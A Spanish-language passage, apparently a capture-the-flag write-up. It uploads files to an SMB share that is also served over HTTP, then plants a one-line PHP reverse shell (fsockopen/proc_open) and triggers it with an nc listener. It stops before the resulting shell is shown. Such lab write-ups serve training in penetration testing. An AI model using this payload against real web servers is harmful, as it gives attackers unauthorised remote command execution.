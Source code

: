 Veremos que ha funcionado, si listamos no vemos nada interesante y si nos metemos en el puerto `80` veremos un `403 Forbbiden` por lo que no podremos hacer gran cosa, vamos a probar a subir un archivo al servidor `SMB` e intentar verlo desde el puerto `80` a ver si se comparte los archivos, por lo que vamos hacer lo siguiente.

> test.txt

```
Texto de prueba
```

Ahora desde el servidor `SMB` hacemos esto.

```shell
put test.txt
```

Y con el `curl` vamos a ver si se esta compartiendo dicho archivo.

```shell
curl http://<IP>/test.txt
```

Info:

```
Texto de prueba
```

Veremos que esta funcionando, por lo que vamos a crear un archivo `PHP` para generarnos una `reverse shell` de esta forma.

## Escalate user www-data

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora realizaremos el mismo proceso que antes, vamos a subir dicho archivo a `SMB` de esta forma:

```shell
put shell.php
```

Una vez subido desde el `host` vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora vamos a visitar dicho archivo desde el navegador de esta forma:

```
URL = htpp://<IP>/shell.php
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:
